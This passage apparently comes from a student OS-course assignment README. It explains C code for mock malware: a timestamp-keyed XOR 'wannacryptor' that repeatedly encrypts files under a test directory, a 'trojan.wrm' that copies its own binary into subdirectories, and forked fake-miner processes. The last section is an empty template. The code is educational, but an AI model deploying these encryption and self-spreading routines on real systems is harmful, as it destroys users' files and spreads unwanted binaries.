    } else if (wannacryptor_pid < 0) {
      log_error("Fork failed for wannacryptor: %s", strerror(errno));
      exit(EXIT_FAILURE);
    } 
  fclose(log_file);
  return 0; 
}
```

Output: 




#### Explanation

To encrypt a file's contents, the below function is used:

```c
void xor_encrypt(const char *input_path, int key) {
  FILE *input_file = fopen(input_path, "rb+");
  if (!input_file) { // check: file open failure
    log_error("Failed to open file: %s (%s)", input_path, strerror(errno));
    return;
  }

  int ch; 
  while ((ch = fgetc(input_file)) != EOF) {
    fseek(input_file, -1, SEEK_CUR);
    fputc(ch ^ key, input_file);
    fflush(input_file);
  }

  fclose(input_file);
}
```

* `const char *input_path` is the path to the file that want to be encrypted.
* `int key` is the timestamp that the encryption will be based on.
* `FILE *input_file = fopen(input_path, "rb+");` is to open a file that is already exsting in the directory path to be read and write into.  
For the sake of safety measure, there's an IF statement so to make sure the success of opening the file. If unsuccessful it will be noted in the log file.  
* `while ((ch = fgetc(input_file)) != EOF)` will loop all of the binary contents of the file for each character until it reaches the `EOF`.  
Using the `fgetc()` function to get the binary value of each character in the file that is being read. 
* `fseek(input_file, -1, SEEK_CUR);` will change the position of character that is being read in the file by `-1`. 
* `fputc(ch ^ key, input_file);` will overwrite the file in the initial position of the character that has been read at the current iteration that has been encrypted using XOR based on the timestamp that has been given to the function.  
* `fflush(input_file);` to make sure the operation of writing to file is being executed properly, forcing the operation in buffer to be executed immeediately/emptied to be executed.  
* `fclose(input_file);` to close the file that is currently being opened to be `rb+` and have been encrypted.  

For encrypting a file's contents, the function above is to be used. But for looping the malware to know every file that is going to be encrypted in the directory path that was given, use:

```c
void encrypt_dir(const char *path, int key) {
  DIR *dir = opendir(path);
  if (!dir) {
    log_error("Failed to open directory: %s (%s)", path, strerror(errno));
    return;
  }

  struct dirent *entry;
  while ((entry = readdir(dir)) != NULL) {
    if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) {
      continue; // Skip current and parent directories
    }

    char full_path[1024];
    snprintf(full_path, sizeof(full_path), "%s/%s", path, entry->d_name);

    if (entry->d_type == DT_DIR) {
      // If it's a directory, recursively encrypt it
      encrypt_dir(full_path, key);
    } else if (entry->d_type == DT_REG) {
      // If it's a regular file, encrypt it
      xor_encrypt(full_path, key);
    }

  }
  closedir(dir);
}
```

* `const char *path` is the path that leads to the directory which contents will be encrypted. 
* `int key` is the timestamp where the XOR operation will operate based on
* `DIR *dir = opendir(path);` to declare and open the directory path as a directory.  
* `struct dirent *entry;` to declare the `struct dirent` variable so we can know each 'type' of path later on.  
*  `while ((entry = readdir(dir)) != NULL) {` is a while loop to read each path in the directory as long the path isn't NULL.  
Below that line there is an IF statement to skip current and parent directory if read.
* `snprintf(full_path, sizeof(full_path), "%s/%s", path, entry->d_name);` to declare a new string (full_path) which is a combination of the original path that is inserted into the function and the path that is being read inside that directory by the function, to form a new path that directs to the file/subdirectory inside the original directory.  
* The next IF statements will check if the path that is currently being read is a directory or a file.  
If it's a directory, it will call upon itself (`encrypt_dir()`) to read the directory paths inside the subdirectory.  
If it's a file, it will call the `xor_encrypt()` to encrypt its contents

After that, call the function in the main fucntion, which is done with below:

```c
pid_t wannacryptor_pid = fork();
  if (wannacryptor_pid == 0) {
      set_process_name("wannacryptor");
      while (1) {
          time_t timestamp = time(NULL);
          encrypt_dir(home, (int)(timestamp % 256));
          fprintf(log_file, "Encryption performed at %ld\n", timestamp);
          fflush(log_file);
          sleep(30);
      }
    } else if (wannacryptor_pid < 0) {
      log_error("Fork failed for wannacryptor: %s", strerror(errno));
      exit(EXIT_FAILURE);
    } 
```

* `wannacryptor_pid = fork()` is to make a child process that is dedicated to call the encryption function.  
* `set_process_name("wannacryptor");` to set the process name as "wannacryptor" in kernel.
* `while(1)` is a while loop to make the child process can always run.
* `time_t timestamp = time(NULL)` to get the current timestamp.
* `encrypt_dir(home, (int)(timestamp % 256));` is to call the `encrypt_dir()` with the argument of the home directory path leading to `/HOME/[USER]` and the current timestamp as an integer that has been done with the modulo operation with 256.
* `sleep(30);` is used so the daemon process will do its operation every 30 seconds.


## Sub Soal c 

#### Objective

Make a **trojan.wrm** that **spreads the runnable file** (binary file) of the malware into the `/HOME/[USER]` directory.

Code block that is running:

```c
// function: spread malware to directories
void spread_malw(const char *source_path, const char *target_dir) {
  DIR *dir = opendir(target_dir);
  if (!dir) {
    log_error("Failed to open target directory: %s (%s)", target_dir, strerror(errno));
    return;
  }

  struct dirent *entry; 
  while ((entry = readdir(dir)) != NULL) {
    if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) {
      continue; // Skip current and parent directories
    }

    char full_path[1024];
    snprintf(full_path, sizeof(full_path), "%s/%s", target_dir, entry->d_name);

    if (entry->d_type == DT_DIR) {
      char new_path[1024]; 
      snprintf(new_path, sizeof(new_path), "%s/malware_copy", full_path);
      /* char command[2048]; 
      snprintf(command, sizeof(command), "cp -f '%s' '%s/malware_copy'", source_path, full_path);
      system(command);  */

      // make the new directory 
      if (mkdir(new_path, 0755) == -1) {
        if (errno != EEXIST) { 
            log_error("Failed to create directory %s: %s", new_path, strerror (errno));
            continue;
          }
      }

      char dest_file[2048];
      snprintf(dest_file, sizeof(dest_file), "%s/malware", new_path);

      pid_t pid = fork();
      if (pid < 0) { // check: fork failure
        log_error("Fork failed: %s", strerror(errno));
        // perror("Failed to fork process");
        continue;
      } else if (pid == 0) { // child process
        // execute cp command
        execlp("cp", "cp", "-f", "--preserve=all", source_path, new_path, NULL);
        // if failed
        log_error("execlp failed: %s (Src: %s -> Dest: %s)", strerror(errno), source_path, new_path);
        exit(EXIT_FAILURE);
      } else { // parent process
        waitpid(pid, NULL, 0);; // wait for child process to finish
      }
    }
  }
  closedir(dir);
}

int main(int argc, char *argv[]) {
    // getting the path to runme
  char self_path[1024];
  ssize_t len = readlink("/proc/self/exe", self_path, sizeof(self_path) - 1);
  if (len == -1) {
    log_error("Failed to get executable path: %s", strerror(errno));
    exit(EXIT_FAILURE);
  }
  self_path[len] = '\0'; // null-terminate the string
  
  // getting the home directory
  char *env_home = getenv("HOME");
  if (env_home == NULL) {
    log_error("Failed to get HOME environment variable: %s", strerror(errno));
    exit(EXIT_FAILURE);
  }
  
  char home[1024];  // buffer final
  // strncpy(home, env_home, sizeof(home));
  snprintf(home, sizeof(home), "%s/malwareTest", env_home);
  home[sizeof(home) - 1] = '\0'; // null-termination safety

  // second feature
  pid_t trojan_pid = fork();
  if (trojan_pid == 0) {
      set_process_name("trojan.wrm");
      while (1) {
          spread_malw(self_path, home);
          sleep(30);
      }
  } else if (trojan_pid < 0) {
      log_error("Fork failed for trojan: %s", strerror(errno));
      exit(EXIT_FAILURE);
  }

  while (1) {
    sleep(1);
  }
  
  return 0;
}
```

Output: 




#### Explanation

For trojan.wrm to work, we need to find the runnable file's and the `/HOME/[USER]` directory path. To be able to do that, we use the below: 

```c
char self_path[1024];
  ssize_t len = readlink("/proc/self/exe", self_path, sizeof(self_path) - 1);
  if (len == -1) {
    log_error("Failed to get executable path: %s", strerror(errno));
    exit(EXIT_FAILURE);
  }
  self_path[len] = '\0';
```

* `readlink("/proc/self/exe", self_path, sizeof(self_path) - 1);` can find the runnable file's path using `/proc/self/exe` link and `readlink()` to use that link and copy the path into `self-path`.  
* The lines below that is just an IF statement for if the path isn't found.

```c
char *env_home = getenv("HOME");
  if (env_home == NULL) {
    log_error("Failed to get HOME environment variable: %s", strerror(errno));
    exit(EXIT_FAILURE);
  }
  
  char home[1024];  // buffer final
  // strncpy(home, env_home, sizeof(home));
  snprintf(home, sizeof(home), "%s/malwareTest", env_home);
  home[sizeof(home) - 1] = '\0';

```

* `env_home = getenv("HOME")` to get the HOME path of the user that is running the malware.
* `snprintf(home, sizeof(home), "%s/malwareTest", env_home);` is for adding the `/malwareTest` path so it's safe to be run for testing purposes.

Next step is to call the main function that spreads the malware (`spread_malw()`) in the main function. 

```c 
pid_t trojan_pid = fork();
  if (trojan_pid == 0) {
      set_process_name("trojan.wrm");
      while (1) {
          spread_malw(self_path, home);
          sleep(30);
      }
  } else if (trojan_pid < 0) {
      log_error("Fork failed for trojan: %s", strerror(errno));
      exit(EXIT_FAILURE);
  }
```

* `trojan_pid = fork()` to make a child process dedicated to spread the malware.
* `set_process_name("trojan.wrm");` to set the process name as "trojan.wrm" in kernal.  
* `while (1) {` to make sure the child process always run.  
* `spread_malw(self_path, home);` calls the `spread_malw()` function with the argument of the user's HOME.  
* `sleep(30)` to make sure the process is run every 30 seconds.  

Meanwhile, here's the main function to spread the malware.

```c
oid spread_malw(const char *source_path, const char *target_dir) {
  DIR *dir = opendir(target_dir);
  if (!dir) {
    log_error("Failed to open target directory: %s (%s)", target_dir, strerror(errno));
    return;
  }

  struct dirent *entry; 
  while ((entry = readdir(dir)) != NULL) {
    if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) {
      continue; // Skip current and parent directories
    }

    char full_path[1024];
    snprintf(full_path, sizeof(full_path), "%s/%s", target_dir, entry->d_name);

    if (entry->d_type == DT_DIR) {
      char new_path[1024]; 
      snprintf(new_path, sizeof(new_path), "%s/malware_copy", full_path);
      /* char command[2048]; 
      snprintf(command, sizeof(command), "cp -f '%s' '%s/malware_copy'", source_path, full_path);
      system(command);  */

      // make the new directory 
      if (mkdir(new_path, 0755) == -1) {
        if (errno != EEXIST) { 
            log_error("Failed to create directory %s: %s", new_path, strerror (errno));
            continue;
          }
      }

      char dest_file[2048];
      snprintf(dest_file, sizeof(dest_file), "%s/malware", new_path);

      pid_t pid = fork();
      if (pid < 0) { // check: fork failure
        log_error("Fork failed: %s", strerror(errno));
        // perror("Failed to fork process");
        continue;
      } else if (pid == 0) { // child process
        // execute cp command
        execlp("cp", "cp", "-f", "--preserve=all", source_path, new_path, NULL);
        // if failed
        log_error("execlp failed: %s (Src: %s -> Dest: %s)", strerror(errno), source_path, new_path);
        exit(EXIT_FAILURE);
      } else { // parent process
        waitpid(pid, NULL, 0);; // wait for child process to finish
      }
    }
  }
  closedir(dir);
}
```

* `const char *source_path` is the directory path leading to the runnable file's path.  
* `const char *target_dir` is the directory path leading to user's HOME path.  
* `DIR *dir = opendir(target_dir);` to declare and open the directory path of the user's HOME path.  
* `struct dirent *entry;` to delcare each entry in the directory path, which will later be used on to scan each file/subdirectory in the directory.
* `while ((entry = readdir(dir)) != NULL) {` is a while loop to read all of the directory path inside the directory path that has been given to the function in the beginning.  
The line below it, is to continue on (skip) when current (.) or parent (..) directory is read in the loop.  
* `snprintf(full_path, sizeof(full_path), "%s/%s", target_dir, entry->d_name);` to make a combination of string, forming a new directory path leading to the file/subdirectory that is being read in that iteration.  
* `snprintf(new_path, sizeof(new_path), "%s/malware_copy", full_path);` is to create a new path that can lead to another sub-subdirectory inside the subdirectory that is read previously (after passing the IF statement).  
* `if (mkdir(new_path, 0755) == -1) {` is to make e new directory called the "malware_copy" as it is intended on the previous line. If the return value of that line is `-1` it means the sub-subdirectory with that name already exist in the subdirectory.
* After that, by making another daemon process, using the `execlp()` to copy the malware runnable file into the designated sub-subdirectory. The exact line to execute this is `execlp("cp", "cp", "-f", "--preserve=all", source_path, new_path, NULL);`.
* As so to prevent a zombie process happening, use `waitpid(pid, NULL, 0);` so the parent process would wait until the child process to finish before it finishes.

## Sub Soal d

#### Objective 

Making sure the first and second feature of the malware to **run repeatedly every 30 seconds intervals**, as long the malware is still running  

Block of Code that is running:

```c
  // first feature
  pid_t wannacryptor_pid = fork();
  if (wannacryptor_pid == 0) {
      set_process_name("wannacryptor");
      while (1) {
          time_t timestamp = time(NULL);
          encrypt_dir(home, (int)(timestamp % 256));
          fprintf(log_file, "Encryption performed at %ld\n", timestamp);
          fflush(log_file);
          sleep(30);
      }
    } else if (wannacryptor_pid < 0) {
      log_error("Fork failed for wannacryptor: %s", strerror(errno));
      exit(EXIT_FAILURE);
    } 
  fclose(log_file);
    
  // second feature
  pid_t trojan_pid = fork();
  if (trojan_pid == 0) {
      set_process_name("trojan.wrm");
      while (1) {
          spread_malw(self_path, home);
          sleep(30);
      }
  } else if (trojan_pid < 0) {
      log_error("Fork failed for trojan: %s", strerror(errno));
      exit(EXIT_FAILURE);
  }
```
Output: 


#### Explanation

Here's the process to declare the start of the malware in the main function: 

For the wannacryptor:

```c
pid_t wannacryptor_pid = fork();
  if (wannacryptor_pid == 0) {
      set_process_name("wannacryptor");
      while (1) {
          time_t timestamp = time(NULL);
          encrypt_dir(home, (int)(timestamp % 256));
          fprintf(log_file, "Encryption performed at %ld\n", timestamp);
          fflush(log_file);
          sleep(30);
      }
    } else if (wannacryptor_pid < 0) {
      log_error("Fork failed for wannacryptor: %s", strerror(errno));
      exit(EXIT_FAILURE);
    } 
  fclose(log_file);
  ```

  For the trojan.wrm: 
  
  ```c
  pid_t trojan_pid = fork();
  if (trojan_pid == 0) {
      set_process_name("trojan.wrm");
      while (1) {
          spread_malw(self_path, home);
          sleep(30);
      }
  } else if (trojan_pid < 0) {
      log_error("Fork failed for trojan: %s", strerror(errno));
      exit(EXIT_FAILURE);
  }
  ```

  * Both starts with declaring their own daemon process and making their own child process to run the malware.  
  * Both also have a while loop where the loop will always run with a 30 seconds interval, indicated by `sleep(30);`
  * As long as the malware isn't stopped deliberately, the malware will **run indefinitely repeatedly every 30 seconds**.

## Sub Soal e

#### Objective

Make a third feature called **rodok.exe** to do a **fork bomb** on the user's device.

Block of Code that is running: 

```c
// function: start rodok
void start_rodok() { 
  int num_miners = sysconf(_SC_NPROCESSORS_ONLN);
  if (num_miners < 3) num_miners = 3;

  for (int i = 0; i < num_miners; i++) {
      pid_t pid = fork();
      if (pid == 0) {
          char process_name[20];
          snprintf(process_name, sizeof(process_name), "mine-crafter-%d", i);
          set_process_name(process_name);
          miner_process(i);
          exit(EXIT_SUCCESS);
      } else if (pid < 0) {
          log_error("Fork failed for miner %d", i);
      }
  }

  while (1) {
      sleep(1);
  }
}

int main(int argc, char *argv[]) {
pid_t rodok_pid = fork();
  if (rodok_pid == 0) {
      set_process_name("rodok.exe");
      start_rodok(); 
  } else if (rodok_pid < 0) {
      log_error("Fork failed for rodok: %s", strerror(errno));
      exit(EXIT_FAILURE);
  }
while (1) {
    sleep(1);
  }
  
  return 0;
}
```

Output: 


#### Explanation

For starters, declare another daemon process to run on itself in the main function, with: 

```c
int main(int argc, char *argv[]) {
pid_t rodok_pid = fork();
  if (rodok_pid == 0) {
      set_process_name("rodok.exe");
      start_rodok(); 
  } else if (rodok_pid < 0) {
      log_error("Fork failed for rodok: %s", strerror(errno));
      exit(EXIT_FAILURE);
  }
while (1) {
    sleep(1);
  }
  
  return 0;
}
```

* `pid_t rodok_pid = fork();` to declare the start of daemon process dedicated for rodok.exe. 
* `set_process_name("rodok.exe");` to set the name of the process as "rodok.exe" in kernel.  
* `start_rodok();` to call the `start_rodok()` function above. 

The `start_rodok();` is like: 

```c
void start_rodok() { 
  int num_miners = sysconf(_SC_NPROCESSORS_ONLN);
  if (num_miners < 3) num_miners = 3;

  for (int i = 0; i < num_miners; i++) {
      pid_t pid = fork();
      if (pid == 0) {
          char process_name[20];
          snprintf(process_name, sizeof(process_name), "mine-crafter-%d", i);
          set_process_name(process_name);
          miner_process(i);
          exit(EXIT_SUCCESS);
      } else if (pid < 0) {
          log_error("Fork failed for miner %d", i);
      }
  }

  while (1) {
      sleep(1);
  }
}
```

* `int num_miners = sysconf(_SC_NPROCESSORS_ONLN);` is to make a limitation on how many miners it will fork for a safter testing later on.  
The maximum amount of miner child that is made by the fork bomb should be the amount of device's core.  
* `if (num_miners < 3) num_miners = 3;` to make sure the minimum number of miners to be made in the fork bomb is 3.
* `for (int i = 0; i < num_miners; i++) {` is to loop the process below it at many as the amount of `num_miners`
* Since the loop will run as much as the `num_miners`, it will make the processes as much `num_miners` with `pid_t pid = fork();`.
*  `snprintf(process_name, sizeof(process_name), "mine-crafter-%d", i)` is to make the string for the name of the miner process according the naming format that is included in the file. 
* `set_process_name(process_name);` is to set the process name as `process_name`. 
* `miner_process(i);` here is to call the `miner_process()` function with the argument of the miner's id process.

## Sub Soal f & g

#### Objective 

Make the miner process with the **name format** and make a **random hexadecimal hash** as long as **64 characters** that can **run repateadly in a random interval of 3–30 seconds**. Miner can also save the hash in the **/tmp/.miner.log** with the format: `[YYYY-MM-DD hh:mm:ss][Miner XX] hash`

Block of Code that is running: 

```c
void miner_process(int miner_id) {
  srand(time(NULL) ^ (miner_id << 16));
  
  while (1) {
      char hash[65];
      for (int i = 0; i < 32; i++) {
          unsigned char byte = rand() % 256;
          sprintf(hash + 2*i, "%02x", byte);
      }
      hash[64] = '\0';

      time_t now = time(NULL);
      struct tm *t = localtime(&now);

      FILE *log_file = fopen("/tmp/.miner.log", "a");
      if (log_file) {
          fprintf(log_file, "[%04d-%02d-%02d %02d:%02d:%02d][Miner %d] %s\n",
                  t->tm_year + 1900, t->tm_mon + 1, t->tm_mday,
                  t->tm_hour, t->tm_min, t->tm_sec, miner_id, hash);
          fclose(log_file);
      }

      sleep(rand() % 13 + 3);
  }
}

void start_rodok() { 
  int num_miners = sysconf(_SC_NPROCESSORS_ONLN);
  if (num_miners < 3) num_miners = 3;

  for (int i = 0; i < num_miners; i++) {
      pid_t pid = fork();
      if (pid == 0) {
          char process_name[20];
          snprintf(process_name, sizeof(process_name), "mine-crafter-%d", i);
          set_process_name(process_name);
          miner_process(i);
          exit(EXIT_SUCCESS);
      } else if (pid < 0) {
          log_error("Fork failed for miner %d", i);
      }
  }
}
```

Output: 


#### Explanation

For setting the name of miner process is at the `start_rodok()`: 

```c
for (int i = 0; i < num_miners; i++) {
      pid_t pid = fork();
      if (pid == 0) {
          char process_name[20];
          snprintf(process_name, sizeof(process_name), "mine-crafter-%d", i);
          set_process_name(process_name);
          miner_process(i);
          exit(EXIT_SUCCESS);
      } else if (pid < 0) {
          log_error("Fork failed for miner %d", i);
      }
  }
```

* `snprintf(process_name, sizeof(process_name), "mine-crafter-%d", i);` is setting the process name for miner with the format of `mine-crafter-xx` with `i` as the `xx` or the `i-th` process of `mine-crafter`.

And then the `miner_process()`: 

```c
void miner_process(int miner_id) {
  srand(time(NULL) ^ (miner_id << 16));
  
  while (1) {
      char hash[65];
      for (int i = 0; i < 32; i++) {
          unsigned char byte = rand() % 256;
          sprintf(hash + 2*i, "%02x", byte);
      }
      hash[64] = '\0';

      time_t now = time(NULL);
      struct tm *t = localtime(&now);

      FILE *log_file = fopen("/tmp/.miner.log", "a");
      if (log_file) {
          fprintf(log_file, "[%04d-%02d-%02d %02d:%02d:%02d][Miner %d] %s\n",
                  t->tm_year + 1900, t->tm_mon + 1, t->tm_mday,
                  t->tm_hour, t->tm_min, t->tm_sec, miner_id, hash);
          fclose(log_file);
      }

      sleep(rand() % 13 + 3);
  }
}
```

* `miner_id` as in the argument that will be passed on onto the function 
* `srand(time(NULL) ^ (miner_id << 16));` to change the `rand()` seed so it will be unique everytime the process is run.  
And the seed is also impacted by the XOR function with the miner_id after shifted to the left by 16 positions.
* `while (1) {` meaning it will run the loop endlessly and repeatedly. 
* `for (int i = 0; i < 32; i++) {` is the main loop for the process to make the hash as long as 64 characters.  
The loop is made to be iterating 32 times because each hexadecimal will contain 2 characters.
* `unsigned char byte = rand() % 256;` is to get a random byte value.  
* `sprintf(hash + 2*i, "%02x", byte);` is to form the hash with position iteration of `2i` and for each iteration it will print out 2 hexadecimal characters from byte in that position.
* `time_t now = time(NULL);` to get the current time.
* `struct tm *t = localtime(&now);` to make struct tm according to the timestamp gotten from the line before. 
* `FILE *log_file = fopen("/tmp/.miner.log", "a");` will open the file `/tmp/.miner.log` with the mode `append`. 
* `fprintf(log_file, "[%04d-%02d-%02d %02d:%02d:%02d][Miner %d] %s\n", t->tm_year + 1900, t->tm_mon + 1, t->tm_mday, t->tm_hour, t->tm_min, t->tm_sec, miner_id, hash);` is to print the line in the `fprintf()` into the `/tmp/.miner.log` according to the format given.  
  * `%04d` is a place for 4 characters of integers.  
  * `%02d` is a place for 2 characters of integers. 
  * `t->tm_year` is the amount of years that has passed since 1900 in the `struct tm *t`.
  * `t->tm_mon` is in which month the timestamp is from `0-11` in the `struct tm *t`.
  * `t->tm_hour` is in what hour the timestamp is in the `struct tm *t`.
  * `t->tm_min` is in what minute the timestamp is in the `struct tm *t`.
  * `t->tm_sec` is in what second the timestamp is in the `struct tm *t`.
* `sleep(rand() % 13 + 3);` to randomly run the miner process with a minimum time of every 3 seconds

# Soal_4

## Sub Soal

Command: 

```c 
command line to activate the script
```

Output:


Block of Code that is running:

```c 
block of code
```

#### Explanation:

```c  
block of code
```

The line above means that you need to figure out the whole thing on your own. So, good luck on whoever is trying to figure out what that line is for. For whoever that's trying to find the explanation here, you are out of luck, 'cuz this README.md is absolutely of no use for that reason.
